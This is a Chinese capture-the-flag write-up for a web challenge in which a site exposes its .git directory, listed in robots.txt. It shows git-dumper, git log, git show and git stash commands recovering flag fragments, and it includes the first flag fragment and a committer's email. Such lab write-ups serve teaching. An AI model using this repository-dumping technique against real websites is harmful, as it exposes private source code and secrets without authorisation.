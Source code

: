 # Robots.txt Leak

**分类**: Web | Git 泄露

**难度**: ⭐⭐

**Author**: st4rry

> 机器人不小心泄露了一些敏感信息，你能找到其中的秘密（flag）吗？

> flag 格式为`HUBUMARS{flag}`

## 知识点

Robots 协议， Git 泄露
Git Log、 Git Stash

## WriteUp

访问 robots.txt 得知有目录.git

```bash
git-dumper url dir
```

访问`dir`目录

```bash
git log
重点关注
commit 5d03e0c5589416a958392ad483f7df7a2c506382
Author: k-0-i <jzcheng3@gmail.com>
Date:   Mon Oct 28 03:05:51 2024 +0000

    Add flag part 1
```

然后 查看

```bash
└─# git show 5d03e0c5589416a958392ad483f7df7a2c506382
commit 5d03e0c5589416a958392ad483f7df7a2c506382
Author: k-0-i <jzcheng3@gmail.com>
Date:   Mon Oct 28 03:05:51 2024 +0000

    Add flag part 1

diff --git a/flag1 b/flag1
new file mode 100644
index 0000000..373f1ad
--- /dev/null
+++ b/flag1
@@ -0,0 +1 @@
+part1: HUBUMAR{4a956bb8
```

git stash

```bash
git stash list
stash@{0}: On master: Test ^_^
stash@{1}: On master: Hide flag part 2
```

`stash@{1}`存在 flag

```bash
└─# git stash pop --index 1
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   .flag.exe
        new file:   flag.txt

Dropped refs/stash@{1} (6a9f6961edcd9cb7727393b3aa9160b97ce13cf7)
```

第二部分 flag 在 .flag.exe 中
